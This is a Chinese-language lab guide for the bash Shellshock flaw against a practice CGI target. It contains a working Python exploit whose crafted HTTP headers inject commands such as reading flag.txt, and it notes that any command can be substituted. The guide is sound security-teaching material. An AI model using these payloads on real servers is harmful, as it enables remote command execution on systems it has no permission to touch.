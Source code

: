 # bash 破壳漏洞

## 【实验原理】

​	Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。导致出现命令执行，而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

## 【实验目的】

提高学员对bash命令的理解以及对bash的原理进行一定的认识。

## 【实验环境】

![](文档/1.png)

* 靶机：Ubuntu14.04 64位操作系统。
* IP地址：随机分配，已绑定端口80
* 客户机：kali  IP地址：随机分配

## 【实验工具】

Python，浏览器访问，漏洞POC进行命令执行

## 【实验步骤】

**步骤1：** 访问平台生成的url，对bash破壳漏洞进行一个初步的了解。

![](文档/2.png)

**步骤2：** 点击靶场环境按钮，进入一个cgi页面

![](文档/3.png)

![](文档/4.png)



**步骤3：** 通过对bash破壳漏洞的进一步了解，从而进行构造攻击payload对靶场页面URL进行远程命令执行

编写exp：

```python
#coding=utf-8
import urllib, urllib2
import cookielib, socket
import cgi, re, os


def get_request(url):
    socket.setdefaulttimeout(5)
    i_headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
                 "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36",
                 "CustomHeader": "() { test;};echo; echo shellshock one;",
                 "CustomHeaderNew": "() { _;} >shellshockme[$($())] { cat flag.txt;}",
                 }

    try:
        req = urllib2.Request(url, headers=i_headers)
        response = urllib2.urlopen(req)
        print response.info()
        html = response.read()
        print html
    except:
        print "Error on request"

if __name__ == '__main__':
    url = "http://218.2.197.232:25294/cgi-bin/test.sh"
    get_request(url)

```

**注：**

1. 将exp中的url替换成自己靶机的url即可
2. exp中的`i_headers`字段将`{ cat flag.txt;}`命令替换成你需要的指令即可完成任意命令执行

**步骤4：** 通过对服务器进行命令执行操作，找出含有flag的页面，flag.txt

**步骤5：** 执行命令查看或下载该文件，找出文件中的flag

执行结果：

![](文档/result.png)

## **【实验总结】**

本次实验主要是模拟真实环境中bash破壳漏洞命令执行操作，提取有效信息。
